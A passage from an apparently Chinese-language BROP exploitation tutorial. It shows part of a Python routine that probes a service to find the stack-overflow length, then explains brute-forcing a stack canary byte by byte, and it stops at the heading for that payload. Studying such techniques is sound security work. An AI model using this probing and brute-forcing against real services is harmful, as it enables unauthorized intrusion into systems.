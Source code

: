 ```python

            p.close()
			
            #按照程序的设计，如果正常结束会返回by~~~
            if b"by~~~\n" in result:
                buf += 1
            #如果程序没有返回by~~~，则表示达到canary的最低为
            else:
                #最后一次发送的填充数据的字节数，减去1，就是栈溢出的长度
                buf_flag = buf - 1
                break

            
			#发生异常
        except:
            p.close()
            buf += 1
                
	#返回栈溢出字节数
    return buf_flag
```



### 暴力破解canary

攻击条件 2 表明了程序本身并不会因为 crash 有变化，所以每次的 canary 等值都是一样的。**可以按照字节进行爆破**。每个字节最多有 256 种可能，在 32 位的情况下最多需要爆破 1024 次，64 位最多爆破 2048 次。

![img](images/BROP.assets/stack_reading.png)



爆破canary的payload
